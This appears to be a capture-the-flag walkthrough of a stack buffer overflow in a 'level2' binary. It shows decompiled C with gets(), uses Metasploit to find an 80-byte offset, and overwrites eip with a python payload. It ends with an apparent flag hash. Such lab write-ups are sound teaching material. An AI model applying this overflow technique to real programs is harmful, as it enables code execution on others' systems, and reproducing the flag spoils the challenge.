

```c
void p(void)
{
  uint address;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((address & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",address);
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)
{
  p();
  return;
}
```

On this level, we can see that we don't have any function susceptible to open us a shell. Time to inject shellcode !

Let's first determine what's the offset our program will crash at. For that purpose, we can use Metasploit tools:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

This will create a payload full of unique character sequences, which will help us determine the exact position our program crashed at. 

Reference: [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5 - 0xRick’s Blog](https://0xrick.github.io/binary-exploitation/bof5/)



On the bottom, we can see the buffer address where the program crashed: `37634136`

We can therefore give it to another Metasploit program to determine the offset:

```bash
/usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 37634136
[*] Exact match at offset 80
```

We now need to find the address we want 

Now when we run the program with 80 characters, the behavior changes:

```bash
python -c "print ('A'*80 + '\x28\xf7\xff\xbf')" | ./level2 
(0xbffff728)
```

We can successfully overwrite `eip` here:


Now that we did that, we need to make sure `eip` points to somewhere in our shellcode. Since no ASLR happens here, we could just determine the address where our shellcode starts.

`492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
